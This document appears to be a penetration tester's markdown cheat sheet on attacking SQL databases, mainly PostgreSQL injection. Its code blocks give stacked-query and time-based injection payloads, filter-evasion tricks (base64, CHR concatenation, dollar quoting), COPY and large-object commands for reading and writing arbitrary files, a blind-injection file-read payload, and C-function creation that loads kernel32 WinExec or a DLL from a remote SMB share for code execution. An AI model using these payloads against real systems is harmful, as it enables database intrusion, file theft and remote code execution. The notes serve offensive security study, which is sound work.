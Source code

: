 # SQL Databases
## Sqlite
### Open DB
```sql
# Open DB
sqlite3 cereal.db

# Dump DB
.dump
```


## MySQL
### Enumerate DB
```sql
# Describe table
DESCRIBE accounts
```

## PostgreSQL
> Note Stacked Queries may break application logic during SQLi;
> In PostgreSQL a semicolon can delimeter command and thus can execute totally new commands in SQLi

 ### Executing Queries against PostgreSQL DB
 #### Using pgAdmin GUI tool
To directly execute SQL Queries directly against the database, Use the `pgAdmin` tool. This is a front end for PostgreSQL
#### From Cmd
```batch
psql.exe -U postgres -p 15432
```


### Examine Table
```sql
\d pg_largeobject
```

### Confirm SQLi Injection
```sql
;select pg_sleep(10);
```

### Filter Evasion
#### base64
```sql
# From base64
select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
```

#### Charchter Code point
```sql
# Charchter Code point
# Character concatenation only works for basic queries such as SELECT,  INSERT, DELETE, etc. It does not work for all SQL statements.
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);

CREATE TABLE EXAMPLETABLE (sometext text); INSERT INTO EXAMPLETABLE(sometext) VALUES (CHR(87)||CHR(66)||CHR(97)||CHR(86));
SELECT * from EXAMPLETABLE;
```

#### Avoiding Quotes
Essentially, two dollar characters (`$$`) can be used as a quote (`'`) substitute by themselves, or a single one (`$`) can indicate the beginning of a “tag.” The tag is optional, can contain zero or more characters, and is terminated with a matching dollar (`$`). If used, this tag is then required at the end of the string as well.

```sql
SELECT 'SomeText';
SELECT $$SomeText$$;
SELECT $TAG$SomeText$TAG$;
```

### Write & Read file to/from Disk
```sql
CREATE TEMP TABLE PayloadTable(payload text);INSERT INTO PayloadTable(payload) VALUES ($$WowThisWorks$$);

COPY PayloadTable(payload) TO $$C:\Users\Public\Desktop\thisworks.txt$$

# Writing to file using tables
COPY <table_name> from <file_name>

# Writing to file using nested select query
COPY (select $$payloaddata$$) to <file_name>

# Reading from file 
COPY <table_name> to <file_name>

# Read from file, Full example
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;SELECT content from readdatatable;DROP table readdatatable;

# Blind Injection, Read from file
CREATE temp table readdatatable (content text);COPY readdatatable from $$C:\Users\Public\Desktop\thisworks.txt$$;select case when(ascii(substr((select content from readdatatable),1,1))=87) then pg_sleep(10) end;--;DROP table readdatatable;
```

### Check If running as DBA
```sql
SELECT current_setting('is_superuser');
```
![[Pasted image 20210908125508.png]]

### Extensions
#### Load PostgreSQL Extension
```sql
create or replace function system(cstring) returns int as 'c:\windows\system32\kernel32.dll','WinExec' language c strict;
 
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$test$$ LANGUAGE C STRICT; 

# supports the use of remote smb shares
create or replace function test(text, integer) returns void as $$\\192.168.1.1\smb\test.dll$$,$$test$$ LANGUAGE C STRICT; 
```

Need to make sure the appropriate Postgres structure is defined. Otherwise, this error will show up
![[Pasted image 20210908171828.png]]

#### Check if function exists
```sql
\df test
```

#### Run function from Extension
```sql
create or replace function test(text, integer) returns void as $$c:\\test.dll$$,$$myfunctioninDLL$$ LANGUAGE C STRICT;
```

> Note that any newly launched calc.exe instance will be running as a service in the background and won't show it's gui if the postgresql is running as `System`

#### Unload extension
```batch
# 1. Stop the Service
net stop "Applications Manager"

# 2. Delete the DLL
del c:\test.dll

# 3. Start the service
net start "Applications Manager"
```

```sql
# 4. Drop the function
DROP FUNCTION test(text, integer);
```

### Postgresql Large Object
Large objects can be exported back to the file system as an identical copy of the original imported file. 

#### Create Large Object
```sql
select lo_import('c:\\windows\win.ini')

# Set loid field when importing
select lo_import('C:\\Windows\\win.ini', 1337);
```

#### List Large Objects
```sql
\lo_list

select loid, pageno from pg_largeobject;
```

#### View Data in Large Object
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

#### Update Large Object - Write to large object directly
```sql
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0; 
```

#### Export large object to disk
```sql
select lo_export(1337, 'C:\\new_win.ini');
```

#### Delete large object
```sql
\lo_unlink 1337
```